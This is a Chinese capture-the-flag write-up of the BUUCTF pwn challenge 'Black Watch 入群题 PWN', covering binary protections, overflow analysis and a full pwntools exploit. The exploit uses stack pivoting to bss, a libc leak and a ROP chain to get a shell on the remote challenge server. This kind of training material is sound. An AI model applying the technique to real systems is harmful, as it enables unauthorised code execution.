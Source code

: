 ```yaml
---
author: 
  name: Zephyr
title: Black Watch 入群题 PWN
date: 2022-3-27 13:20:03
permalink: /pages/2e1547494524d19c
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# Black Watch 入群题 PWN

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul_function函数及函数表如下

![Black_Watch_入群题_PWN_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/Black_Watch_%E5%85%A5%E7%BE%A4%E9%A2%98_PWN_1.png)



## 思路分析

1. 目前信息：
   - vul_function函数可溢出8个字节
   - s在bss段
   - 无system、/bin/sh与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 只能溢出少量字节，选择使用栈迁移的手法，将栈迁移到s所在的bss段上,接着泄漏libc和函数地址，再构造rop链获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
io = remote('node4.buuoj.cn', 28817)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x1c
bss_s_addr = 0x0804A300
leave_ret = 0x08048511
write_plt = elf.plt['write']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat([bss_s_addr+0x200, write_plt,main_addr, 1, libc_start_main_got, 4])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat([bss_s_addr+0x200, system, 0xdeadbeef, bin_sh])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
io.interactive()
```
